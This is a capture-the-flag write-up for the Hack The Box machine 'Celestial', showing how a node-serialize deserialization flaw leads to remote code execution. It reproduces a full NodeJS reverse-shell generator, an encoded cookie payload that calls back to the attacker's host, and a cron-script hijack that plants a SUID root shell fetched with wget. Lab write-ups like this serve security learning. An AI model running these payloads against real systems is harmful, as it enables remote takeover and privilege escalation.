

# Hack The Box - Celestial Writeup

As is tradition, we start with a very lazy nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap 10.129.228.94
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-31 10:14 EDT
Nmap scan report for 10.129.228.94
Host is up (0.19s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 1.09 seconds
```

We see an unusual port (at least to me). Let's enumerate it further, with a just \*slightly\* less lazy nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap 10.129.228.94 -p3000 -A
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-31 10:20 EDT
Nmap scan report for 10.129.228.94
Host is up (0.29s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   511.63 ms 10.10.16.1
2   541.75 ms 10.129.228.94
```

Some kind of nodejs situation going on here. Popping it open in the browser gives a 404:

<figure><figcaption></figcaption></figure>

After playing around for a bit, and trying different directories, the main page ends up saying some text for some reason:

<figure><figcaption></figcaption></figure>

I will try not to take this personally, math was never my strong suite. I'm going to go check this out in Burp. I noticed that the page again said 404, but after refreshing, the text comes up. Critical thinking tells us that there may be some kind of cookie involved, that is registering us after the initial visit. We confirm this:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Unbase it:


```
┌──(kali㉿kali)-[~]
└─$ echo 'eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D' | base64 -d
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}base64: invalid input
```


Let's fiddle with the parameters:


```
┌──(kali㉿kali)-[~]
└─$ echo '{"username":"Admin","country":"Idk Probably Somewhere Smart","state":"Coolsville","num":"22"}' | base64             
eyJ1c2VybmFtZSI6IkFkbWluIiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgU21h
cnQiLCJzdGF0ZSI6IkNvb2xzdmlsbGUiLCJudW0iOiIyMiJ9Cg==
                                                                                                                                                                                                               
┌──(kali㉿kali)-[~]
└─$ echo -n 'eyJ1c2VybmFtZSI6IkFkbWluIiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgU21h                                                             
cnQiLCJzdGF0ZSI6IkNvb2xzdmlsbGUiLCJudW0iOiIyMiJ9Cg==' | base64 -d
{"username":"Admin","country":"Idk Probably Somewhere Smart","state":"Coolsville","num":"22"}
```


<figure><figcaption></figcaption></figure>

Alright. So it's taking our name, and doing some string appending function, and then giving us back the result. I'll explore this in depth, and do some manual fuzzing with several different inputs.

Throwing in a string instead of a number throws an error:


```
┌──(kali㉿kali)-[~]
└─$ echo '{"username":"Admin","country":"Idk Probably Somewhere Smart","state":"Coolsville","num":"hello"}' | base64
eyJ1c2VybmFtZSI6IkFkbWluIiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgU21h
cnQiLCJzdGF0ZSI6IkNvb2xzdmlsbGUiLCJudW0iOiJoZWxsbyJ9Cg==
```


<figure><figcaption></figcaption></figure>


```
ReferenceError: hellohello is not defined<br> &nbsp; &nbsp;at eval (eval at &lt;anonymous&gt; (/home/sun/server.js:13:29), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at /home/sun/server.js:13:16<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/home/sun/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/home/sun/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /home/sun/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/home/sun/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/home/sun/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at cookieParser (/home/sun/node_modules/cookie-parser/index.js:70:5)
```


It leaks the information about a user, "/home/sun". I believe the major red flag here is the direct call to eval() using unsanitized user controlled input. This means we can insert code directly into the eval function.

And by knocking out the quote around our answer to the username field, we get a serialization error:


```
SyntaxError: Unexpected token A<br> &nbsp; &nbsp;at Object.parse (native)<br> &nbsp; &nbsp;at Object.exports.unserialize (/home/sun/node_modules/node-serialize/lib/serialize.js:62:16)<br> &nbsp; &nbsp;at /home/sun/server.js:11:24<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/home/sun/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/home/sun/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /home/sun/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/home/sun/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/home/sun/node_modules/express/lib/router/index.js:275:10)
```


I end up following this guide: [https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)

```
#!/usr/bin/python
# Generator for encoded NodeJS reverse shells
# Based on the NodeJS reverse shell by Evilpacket
# https://github.com/evilpacket/node-shells/blob/master/node_revshell.js
# Onelineified and suchlike by infodox (and felicity, who sat on the keyboard)
# Insecurety Research (2013) - insecurety.net
import sys

if len(sys.argv) != 3:
    print "Usage: %s <LHOST> <LPORT>" % (sys.argv[0])
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print "[+] LHOST = %s" % (IP_ADDR)
print "[+] LPORT = %s" % (PORT)
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print "[+] Encoding"
PAYLOAD = charencode(NODEJS_REV_SHELL)
print "eval(String.fromCharCode(%s))" % (PAYLOAD)
```

This must be ran with python2. We get the following payload:


```
┌──(kali㉿kali)-[~/tools]
└─$ python2 ./nodejsshell.py 10.10.16.5 4444
[+] LHOST = 10.10.16.5
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,54,46,53,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```


Which, like in the guide, we combine with a setup for the function, to get an end payload of:


```
{"username":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,54,46,53,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```


We turn this into base64, and send it off. I didn't think it worked at first, because it errored out:

<figure><figcaption></figcaption></figure>

However, when I checked my listener, I was very happy:

```
┌──(kali㉿kali)-[~/tools]
└─$ nc -nvlp 4444      
listening on [any] 4444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.129.228.94] 36232
Connected!
ls
Desktop
Documents
Downloads
examples.desktop
Music
node_modules
output.txt
Pictures
Public
server.js
Templates
user.txt
Videos
```

```
python -c 'import pty; pty.spawn("/bin/bash")'
sun@celestial:~$ source .profile
source .profile
sun@celestial:~$ cat user.txt
cat user.txt
31efb0339e19f42b6101966cfd104dd7
sun@celestial:~$ 
sun@celestial:~$ id         
id
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
sun@celestial:~$ 
```

We have a lot of permissions. There are probably multiple paths to root, especially since this is an older box.

We enumerate the logs (since we are adm):


```
sun@celestial:~$ cat /var/log/syslog
cat /var/log/syslog
May 31 10:15:22 celestial rsyslogd: [origin software="rsyslogd" swVersion="8.16.0" x-pid="2804" x-info="http://www.rsyslog.com"] rsyslogd was HUPed
May 31 10:15:32 celestial anacron[2833]: Job `cron.daily' terminated
May 31 10:16:25 celestial systemd[1]: Started Daily apt activities.
May 31 10:16:25 celestial systemd[1]: apt-daily.timer: Adding 6h 25min 30.388232s random time.
May 31 10:16:25 celestial systemd[1]: Startup finished in 4.047s (kernel) + 6min 5.261s (userspace) = 6min 9.309s.
May 31 10:16:25 celestial systemd[1]: apt-daily.timer: Adding 2h 21min 17.134262s random time.
May 31 10:17:01 celestial CRON[7323]: (root) CMD (   cd / && run-parts --report /etc/cron.hourly)
May 31 10:20:01 celestial CRON[7326]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
```


We can see that root is triggering a python script in Documents. We will just swap this out and wait. I will be using this simple persistence script:

```
import shutil, os, stat
shutil.copy2("/bin/bash", "/tmp/bash")
os.chown("/tmp/bash", 0, 0)
os.chmod("/tmp/bash", os.stat("/tmp/bash").st_mode | stat.S_ISUID)
```

```
sun@celestial:~/Documents$ wget http://10.10.16.5/suidbash.py
wget http://10.10.16.5/suidbash.py
--2025-05-31 13:25:51--  http://10.10.16.5/suidbash.py
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 158 [text/x-python]
Saving to: ‘suidbash.py’

suidbash.py         100%[===================>]     158  --.-KB/s    in 0s      

2025-05-31 13:25:51 (35.1 MB/s) - ‘suidbash.py’ saved [158/158]

sun@celestial:~/Documents$ ls
ls
script.py  suidbash.py  user.txt
sun@celestial:~/Documents$ rm script.py
rm script.py
sun@celestial:~/Documents$ mv suidbash.py script.py
mv suidbash.py script.py
sun@celestial:~/Documents$ ls
ls
script.py  user.txt
sun@celestial:~/Documents$ head script.py
head script.py
import shutil, os, stat
shutil.copy2("/bin/bash", "/tmp/bash")
os.chown("/tmp/bash", 0, 0)
os.chmod("/tmp/bash", os.stat("/tmp/bash").st_mode | stat.S_ISUID)
sun@celestial:~/Documents$ 

```

We will just have to wait now. After a few minutes:

```
ls /tmp
bash
systemd-private-8c368ba9bab64f99b19a8c3fbbfec5be-colord.service-yo8Tsw
systemd-private-8c368ba9bab64f99b19a8c3fbbfec5be-rtkit-daemon.service-1A1Ppy
systemd-private-8c368ba9bab64f99b19a8c3fbbfec5be-systemd-timesyncd.service-1fup0X
vmware-root
sun@celestial:~/Documents$ 
```

Sweet, let's use it:

```
/tmp/bash -p
bash-4.3# id
id
uid=1000(sun) gid=1000(sun) euid=0(root) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
bash-4.3# cat /root/flag.txt
cat /root/flag.txt
cat: /root/flag.txt: No such file or directory
bash-4.3# ls /root
ls /root
root.txt  script.py
bash-4.3# cat /root/root.txt
cat /root/root.txt
e7bad8DEADBEEF575b32910898cf25f4
bash-4.3# 
```

We are root!
